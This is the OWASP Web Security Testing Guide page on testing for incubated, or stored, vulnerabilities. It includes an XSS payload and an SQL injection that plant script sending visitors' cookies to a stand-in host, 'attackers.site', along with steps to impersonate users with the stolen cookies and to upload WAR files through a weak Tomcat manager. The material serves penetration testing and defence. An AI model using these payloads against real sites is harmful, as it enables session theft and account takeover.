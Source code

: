 # Testing for Incubated Vulnerability

|ID             |
|---------------|
|WSTG-INPV-14|

## Summary

Also often referred to as persistent attacks, incubated testing is a complex testing method that needs more than one data validation vulnerability to work. Incubated vulnerabilities are typically used to conduct “watering hole” attacks against users of legitimate web applications.

Incubated vulnerabilities have the following characteristics:

- The attack vector needs to be persisted in the first place, it needs to be stored in the persistence layer, and this would only occur if weak data validation was present or the data arrived into the system via another channel such as an admin console or directly via a backend batch process.
- Secondly, once the attack vector was “recalled” the vector would need to be executed successfully. For example, an incubated XSS attack would require weak output validation so the script would be delivered to the client in its executable form.

Exploitation of some vulnerabilities, or even functional features of a web application, will allow an attacker to plant a piece of data that will later be retrieved by an unsuspecting user or other component of the system, exploiting some vulnerability there.

In a penetration test, `incubated attacks` can be used to assess the criticality of certain bugs, using the particular security issue found to build a client-side based attack that usually will be used to target a large number of victims at the same time (i.e. all users browsing the site).

This type of asynchronous attack covers a great spectrum of attack vectors, among them the following:

- File upload components in a web application, allowing the attacker to upload corrupted media files (jpg images exploiting `CVE-2004-0200`, png images exploiting `CVE-2004-0597`, executable files, site pages with active component, etc.)
- Cross-site scripting issues in public forums posts (see [Testing for Stored Cross Site Scripting](02-Testing_for_Stored_Cross_Site_Scripting.md) for additional details). An attacker could potentially store malicious scripts or code in a repository in the backend of the web-application (e.g., a database) so that this script/code gets executed by one of the users (end users, administrators, etc). The archetypical incubated attack is exemplified by using a cross-site scripting vulnerability in a user forum, bulletin board, or blog in order to inject some JavaScript code at the vulnerable page, and will be eventually rendered and executed at the site user's browser --using the trust level of the original (vulnerable) site at the user's browser.
- SQL/XPATH Injection allowing the attacker to upload content to a database, which will be later retrieved as part of the active content in a web page. For example, if the attacker can post arbitrary JavaScript in a bulletin board so that it gets executed by users, then he might take control of their browsers (e.g., [XSS-proxy](http://sourceforge.net/projects/xss-proxy)).
- Misconfigured servers allowing installation of Java packages or similar web site components (i.e. Tomcat, or web hosting consoles such as Plesk, CPanel, Helm, etc.)

## How to Test

### Black-Box Testing

#### File Upload Example

Verify the content type allowed to upload to the web application and the resultant URL for the uploaded file. Upload a file that will exploit a component in the local user workstation when viewed or downloaded by the user. Send your victim an email or other kind of alert in order to lead him/her to browse the page. The expected result is the exploit will be triggered when the user browses the resultant page or downloads and executes the file from the trusted site.

#### XSS Example on a Bulletin Board

1. Introduce `JavaScript` code as the value for the vulnerable field, for instance:
    `<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>`

2. Direct users to browse the vulnerable page or wait for the users to browse it. Have a "listener" at `attackers.site` host listening for all incoming connections.
3. When users browse the vulnerable page, a request containing their cookie (`document.cookie` is included as part of the requested URL) will be sent to the `attackers.site` host, such as the following:

    ```html
     - GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE;
         %20JSESSIONID=ADIFFERENTVALUE:-1;%20ExpirePage=https://vulnerable.site/site/;
         TOKEN=28_Sep_2006_21:46:36_GMT HTTP/1.1
    ```

4. Use cookies obtained to impersonate users at the vulnerable site.

#### SQL Injection Example

Usually, this set of examples leverages XSS attacks by exploiting a SQL-injection vulnerability. The first thing to test is whether the target site has a SQL injection vulnerability. This is described in [Testing for SQL Injection](05-Testing_for_SQL_Injection.md). For each SQL-injection vulnerability, there is an underlying set of constraints describing the kind of queries that the attacker/pen-tester is allowed to do.

The tester then has to match the XSS attacks he has devised with the entries that he is allowed to insert.

1. In a similar fashion as in the previous XSS example, use a web page field vulnerable to SQL injection issues to change a value in the database that would be used by the application as input to be shown at the site without proper filtering (this would be a combination of an SQL injection and a XSS issue). For instance, let's suppose there is a `footer` table at the database with all footers for the web site pages, including a `notice` field with the legal notice that appears at the bottom of each web page. You could use the following query to inject JavaScript code to the `notice` field at the `footer` table in the database.

    ```sql
    SELECT field1, field2, field3`
     FROM table_x
     WHERE field2 = 'x';
        UPDATE footer
        SET notice = 'Copyright 1999-2030%20
            <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'
        WHERE notice = 'Copyright 1999-2030';
    ```

2. Now, each user browsing the site will silently send his cookies to the `attackers.site` (steps b.2 to b.4).

#### Misconfigured Server

Some web servers present an administration interface that may allow an attacker to upload active components of her choice to the site. This could be the case with an Apache Tomcat server that doesn’t enforce strong credentials to access its Web Application Manager (or if the pen testers have been able to obtain valid credentials for the administration module by other means).

In this case, a WAR file can be uploaded and a new web application deployed at the site, which will not only allow the pen tester to execute code of her choice locally at the server, but also to plant an application at the trusted site, which the site regular users can then access (most probably with a higher degree of trust than when accessing a different site).

As should also be obvious, the ability to change web page contents at the server, via any vulnerabilities that may be exploitable at the host which will give the attacker webroot write permissions, will also be useful towards planting such an incubated attack on the web server pages (actually, this is a known infection-spread method for some web server worms).

### Gray-Box Testing

Gray-box or white-box testing techniques will be the same as previously discussed.

- Examining input validation is key in mitigating against this vulnerability. If other systems in the enterprise use the same persistence layer they may have weak input validation and the data may be persisted via a `back door`.
- To combat the `back door` issue for client side attacks, output validation must also be employed so tainted data shall be encoded prior to displaying to the client, and hence not execute.

## Tools

- [XSS-proxy](https://sourceforge.net/projects/xss-proxy)
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org/)
- [Burp Suite](https://portswigger.net/burp)
- [Metasploit](https://www.metasploit.com/)

## References

Most of the references from the Cross-site scripting section are valid. As explained above, incubated attacks are executed when combining exploits such as XSS or SQL-injection attacks.

### Advisories

- [CERT(R) Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests](https://www.cert.org/advisories/CA-2000-02.html)
- [Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site scripting vulnerability](https://cxsecurity.com/issue/WLB-2006080004)

### Whitepapers

- [Web Application Security Consortium “Threat Classification, Cross-site scripting”](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml)

